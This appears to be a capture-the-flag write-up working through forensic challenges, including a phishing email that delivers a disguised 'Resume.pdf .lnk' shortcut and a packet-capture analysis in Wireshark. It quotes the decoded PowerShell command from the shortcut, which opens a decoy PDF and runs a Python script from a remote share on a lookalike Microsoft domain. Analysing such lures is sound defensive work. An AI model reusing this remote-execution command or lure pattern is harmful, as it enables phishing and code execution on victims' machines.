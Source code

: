 ### Stage 3

The last script is completely harmless, we can simply run it to get the flag.

```powershell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

## A New Hire

### Stage 1

At the beginning, we get access to a `.eml` (`Electronic Mail`) file. It contains a link to a "resume". Opening the link redirects us to a new page, where we can download a file called `Resume.pdf .lnk`.

### Stage 2

If we check the content of this `shortcut file`, we will see, that it's starting `PowerShell` with a `Base64` encrypted command. Once we decrypt it, we get the following:

```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:37974/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@37974\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@37974\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

This command does 2 things:

1. opens `resume_official.pdf` in Microsoft Edge; not important for use right now
2. runs a remote `python` script called `client.py`

### Stage 3

`client.py` contains an encrypted payload and an encryption key. Since the key is only encrypted with `Base64`, we can decrypt it, and we will be presented with the flag.

## Silent Trap

For this task, we get access to a capture file, that we need to analyse to answer multiple questions.

### Flag 1

We need to figure out the subject of the first email the victim opened. We can do it by following these steps:

1. open the capture file in `wireshark`
2. filter for `HTTP` communicaiton
3. find the first packet that looks like an mailbox, and has the `_get` action
4. `Right Click` -> `Follow` -> `TCP Stream`
